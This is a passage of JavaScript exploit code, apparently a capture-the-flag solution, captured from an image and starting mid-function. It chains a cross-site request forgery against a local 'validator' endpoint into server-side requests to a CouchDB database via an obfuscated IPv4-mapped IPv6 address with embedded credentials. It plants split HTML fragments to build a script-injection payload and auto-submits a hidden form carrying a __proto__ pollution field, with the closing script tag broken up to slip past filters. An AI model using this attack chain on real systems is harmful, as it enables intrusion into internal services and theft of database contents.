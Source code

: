 ```javascript
      },
      body: `username=${username}&password=${password}`
  })

  await fetch('http://127.0.0.1:3000/validator', {
      method: 'POST',
      mode: 'no-cors',
      credentials: 'include',
      headers: {
        'Content-Type': 'application/x-www-form-urlencoded'
      },
      body: serialize({
          type: 'url',
          input: {
              url: `http://${database}:${password}@[::ffff:ac1e:103]:5984/${database}/a`,
              method: 'put',
              headers: {'Content-Type': 'application/json'},
              data: `{"flag": "<script></script><meta '"}`
          }
      })
  })

  await fetch('http://127.0.0.1:3000/validator', {
      method: 'POST',
      mode: 'no-cors',
      credentials: 'include',
      headers: {
        'Content-Type': 'application/x-www-form-urlencoded'
      },
      body: serialize({
          type: 'url',
          input: {
              url: `http://${database}:${password}@[::ffff:ac1e:103]:5984/${database}/z`,
              method: 'put',
              headers: {'Content-Type': 'application/json'},
              data: `{"flag": ">"}`
          }
      })
  })

document.write(`

<form method="post" action="http://127.0.0.1:3000/validator">
    <input type="hidden" name="type" value="url" />
    <input type="hidden" name="input[url]" value="http://${database}:${password}@[::ffff:ac1e:0103]:5984/${database}/_find"/>
    <input type="hidden" name="input[headers][Content-Type]" value="application/json" />
    <input type="hidden" name="input[method]" value="POST" />
    <input type="hidden" name="input[data]" value='{"selector":{}}'/>
    <input type="hidden" name="input[responseType]" value="text"/>
    <input type="hidden" name="input[transformResponse][__proto__]" value=""/>
</form>
<script>document.forms[0].submit()</scri`+`pt>
`)

}, 0)
```
